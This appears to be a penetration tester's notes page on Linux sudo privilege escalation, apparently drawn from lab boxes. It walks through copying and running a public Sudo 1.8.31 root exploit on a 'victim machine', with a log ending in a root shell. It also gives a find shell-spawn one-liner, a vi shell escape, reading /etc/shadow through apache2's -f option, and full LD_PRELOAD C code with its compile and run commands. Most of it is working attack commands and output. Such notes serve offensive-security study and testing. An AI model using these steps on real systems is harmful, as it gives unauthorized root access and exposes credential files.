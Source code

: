 # Sudo



## SUDO version exploit

{% code title="checking sudo version" overflow="wrap" lineNumbers="true" %}
```
sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31

```
{% endcode %}

Exploit to use

{% hint style="info" %}
[https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
{% endhint %}

1. download the code
2. copy the exploit to the victim machine
3. inside the directory "make"
4. run the exploit "./exploit"

{% code title="scp the code" overflow="wrap" lineNumbers="true" %}
```
scp -i id_ecdsa_anita -P 2222 -r Sudo-1.8.31-Root-Exploit anita@192.168.218.245:/home/anita/
Enter passphrase for key 'id_ecdsa_anita': 
shellcode.c                                                                                                                                                                                                                                                                               100%  599    12.9KB/s   00:00    
README.md                                                                                                                                                                                                                                                                                 100%  692    14.4KB/s   00:00    
exclude                                                                                                                                                                                                                                                                                   100%  240     5.1KB/s   00:00    
pre-push.sample                                                                                                                                                                                                                                                                           100% 1374    28.5KB/s   00:00    
pre-applypatch.sample                                                                                                                                                                                                                                                                     100%  424     9.3KB/s   00:00    
applypatch-msg.sample                                                                                                                                                                                                                                                                     100%  478     9.4KB/s   00:00    
fsmonitor-watchman.sample                                                                                                                                                                                                                                                                 100% 4726    96.2KB/s   00:00    
pre-commit.sample                                
```
{% endcode %}

{% code title="compiling the code and running it" overflow="wrap" lineNumbers="true" %}
```
cd Sudo-1.8.31-Root-Exploit
$ ls -lah
total 28K
drwxr-xr-x 3 anita anita 4.0K Sep 30 18:19 .
drwxr-xr-x 5 anita anita 4.0K Sep 30 18:19 ..
-rw-r--r-- 1 anita anita 2.0K Sep 30 18:19 exploit.c
drwxr-xr-x 8 anita anita 4.0K Sep 30 18:19 .git
-rw-r--r-- 1 anita anita  208 Sep 30 18:19 Makefile
-rw-r--r-- 1 anita anita  692 Sep 30 18:19 README.md
-rw-r--r-- 1 anita anita  599 Sep 30 18:19 shellcode.c
$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
$ ls
exploit  exploit.c  libnss_x  Makefile  README.md  shellcode.c
$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root),998(apache),1004(anita)
# 

```
{% endcode %}

## sudo -l ### check sudo access

[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Leverage find command

```
sudo find . -exec /bin/sh \; -quit
```

## vi

```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The contents of the file don’t actually matter here. What we are wanting is to have an active session of **vi** running which we can then use to leverage to a root shell, since **vi** will be running as root already. How does this work? Well within vi you actually have the ability to run terminal commands as a feature, not a bug. So if we have **vi** open, running as root, and we tell the terminal to spawn a shell, I’m sure you can guess _what_ shell is going to be spawned? >:)

<figure><img src="https://miro.medium.com/v2/resize:fit:111/1*1Nm7WSXt842QNht2WnPR6w.png" alt="" height="101" width="111"><figcaption></figcaption></figure>

```
root@vaccine:/var/lib/postgresql# whoami
root

```

## Leverage application functions

Apache2 has an option that supports loading alternative configuration files (-f). Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

## **Leverage LD\_PRELOAD**

On some systems, you may see the LD\_PRELOAD environment option.

\


![](https://i.imgur.com/gGstS69.png)

LD\_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld\_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD\_PRELOAD. If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD\_PRELOAD option will be ignored if the real user ID is different from the effective user ID.\


The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

\#include \<stdio.h>\
\#include \<sys/types.h>\
\#include \<stdlib.h>\
\
void \_init() {\
unsetenv("LD\_PRELOAD");\
setgid(0);\
setuid(0);\
system("/bin/bash");\
}\


We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

\


![](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.



![](https://i.imgur.com/1YwARyZ.png)

\

